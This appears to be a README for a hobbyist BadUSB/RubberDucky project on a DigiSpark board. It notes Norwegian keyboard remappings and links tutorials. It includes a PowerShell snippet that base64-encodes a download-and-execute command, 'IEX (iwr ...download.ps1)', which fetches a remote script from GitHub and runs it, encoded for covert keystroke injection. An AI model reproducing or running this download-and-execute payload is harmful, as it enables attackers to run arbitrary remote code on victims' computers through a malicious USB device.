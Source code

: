 This directory is for files directed to creating a BadUSB or RubberDucky.
The scripts are written for the DigiSpark USB mini Arduino board.
Code is added with the Arduino IDE.


Info: 
The USB writes directly to the keyboard, and the default is an American keyboard.
Use this list below to use the equivalent Norwegian keyboard options.
American Keyboard layout info
@ = "
- = /
) = (
( = *
/ = &
\ = =
: = >
; = <

Sources:
https://digistump.com/wiki/digispark/tutorials/connecting
https://www.secjuice.com/how-to-build-a-low-cost-rubber-ducky/

Encode Base64 command:

$String = "IEX (iwr 'https://raw.githubusercontent.com/helfiesp/Security/main/BadUSB/download.ps1')"

$bytes = [System.Text.Encoding]::Unicode.GetBytes($String)
$encodedCommand = [System.Convert]::ToBase64String($bytes)

Write-Host "Encoded command:"
Write-Host $encodedCommand
